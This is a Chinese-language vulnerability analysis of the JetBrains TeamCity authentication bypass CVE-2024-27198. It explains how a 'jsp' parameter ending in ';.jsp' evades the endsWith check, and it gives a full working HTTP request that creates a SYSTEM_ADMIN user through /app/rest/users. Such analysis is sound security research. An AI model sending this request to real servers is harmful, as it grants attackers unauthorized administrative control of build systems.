










- [JetBrains TeamCity 身份验证绕过漏洞(CVE-2024-27198)](#jetbrains-teamcity-身份验证绕过漏洞cve-2024-27198)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [漏洞原理](#漏洞原理)
    - [请求处理逻辑](#请求处理逻辑)
    - [认证绕过](#认证绕过)
    - [创建用户](#创建用户)
  - [漏洞补丁](#漏洞补丁)
  - [参考](#参考)

# JetBrains TeamCity 身份验证绕过漏洞(CVE-2024-27198)
## 影响版本
< 2023.11.4
## 环境搭建
https://download-cdn.jetbrains.com.cn/teamcity/TeamCity-2023.11.3.exe  
>DEBUG: 修改bin目录teamcity-server-internal.bat中

## 漏洞原理
### 请求处理逻辑
JetBrains TeamCity使用SpringMVC框架,
漏洞位于`web-openapi.jar!\jetbrains\buildServer\controllers\BaseController.class`中,
这是一个抽象类,大部分的controller都继承于该抽象类,其中重新定义了Controller的处理请求的一些通用方法。  
首先就是自定义的`handleRequest`方法,这是springMVC Dispatcher将请求转发到controller时执行的第一个方法。  
  
其中首先就是检查当前Controller是否支持请求方式为OPTIONS,然后就会进入下面的`handleRequestInternal`方法。  
  
然后通过Controller的`doHandle`方法来处理当前请求,最后返回一个ModelAndView视图。  
可以看到当返回的视图不为空且不是重定向视图时就会进入`this.updateViewIfRequestHasJspParameter(request, modelAndView);`方法。其方法实现如下:  
  
首先会进行一个判断,即当前视图的视图名称不为空,且当前请求的ServletPath不是以.jsp结尾时,`isControllerRequestWithViewName`的值则为true,否则为false,即判断当前请求不是jsp请求而是mvc形式的请求。而从方法名也可以看出,该方法主要是当请求中含有jsp参数时会重新设置返回的视图。  
接下来则会从请求中尝试获取jsp参数的值。  
  
其中只要请求中的jsp参数值以`.jsp`结尾且不包含`admin/`就会直接返回该参数值,即认为当前请求是请求的jsp文件,这里也可以猜到除了admin路径的jsp文件,其它jsp文件应该是不需要认证的。  
然后就会将当前返回视图对象设置为得到的jsp参数值。
### 认证绕过
总结上面的整个逻辑,其像实现的逻辑其实就是当一个springMVC Controller的请求中如果携带jsp参数,则将请求重定向到对应的jsp文件中。 

逻辑漏洞位于对jsp参数请求的路径是否是jsp文件的判定上,应用简单的使用`endwith`方法来判断其请求的路径是否是jsp文件,然而这很容易使用经典的`;`符号绕过,对于`/a/b/c;.jsp`这样的路径其请求的真实路径其实是`/a/b/c`,但符合`endsWith(".jsp")`的判定。  

最后只需要找到一个不需要认证的controller进入这段逻辑即可,而应用中有一个PageNotFoundController则可以恰好利用,随意访问一个不存在的路径携带构造好的jsp参数即可触发漏洞。  
以请求/app/rest/server为例。 
   
构造构造`jsp=/app/rest/server;.jsp`,原本的404.jsp则会被替换为`/app/rest/server;.jsp`即`/app/rest/server`.  
  

### 创建用户
作为实际利用时可以通过/app/rest/users接口来创建管理员
```http
POST /anyrequest?jsp=/app/rest/users;.jsp HTTP/1.1
Host: 192.168.18.35:8111
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: TCSESSIONID=57DD8A41C3D9CA88F59A63CE4CEC8FDB; __test=1
Connection: close
Content-Type: application/json
Content-Length: 131

{"username": "test", "password": "admin", "email": "test@gmail.com", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}
```
  

## 漏洞补丁
更新后的版本中并没有对漏洞逻辑进行修改,增加了一些黑名单校验的东西(补丁都是混淆的),使用原来的poc会直接返回403 Access denied.
## 参考
https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/